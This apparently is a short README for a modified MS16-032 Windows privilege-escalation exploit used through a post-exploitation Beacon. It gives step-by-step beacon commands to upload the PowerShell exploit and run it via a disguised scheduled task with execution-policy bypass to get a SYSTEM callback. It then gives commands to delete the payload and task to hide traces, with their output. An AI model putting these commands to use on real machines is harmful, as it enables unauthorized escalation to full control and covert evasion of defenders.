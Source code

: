 # Updated Exploit ms16-032 to get a Beacon back

Requirement: You need a unpriviledged Shell/Beacon on Target
Change Exploit to fit your currnet ListenerName (downloadstring):
Upload Exploit to Target
beacon> cd C:\Windows\Temp
beacon> upload /root/tools/files/ms16-032_beacon.ps1
Now create a schtasks to run your exploit:
beacon> shell schtasks /Create /TN UpdateSRV /SC once /ST 10:10 /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec bypass C:\Windows\Temp\ms16-032_beacon.ps1"
System beacon calls back :)
Delete Beacon:
beacon> shell del C:\Windows\Temp\ms16-032_beacon.ps1
Delete Task:
beacon> shell schtasks /Delete /TN UpdateSRV /F
[*] Tasked beacon to run: schtasks /Delete /TN UpdateSRV /F
SUCCESS: The scheduled task "UpdateSRV" was successfully deleted.
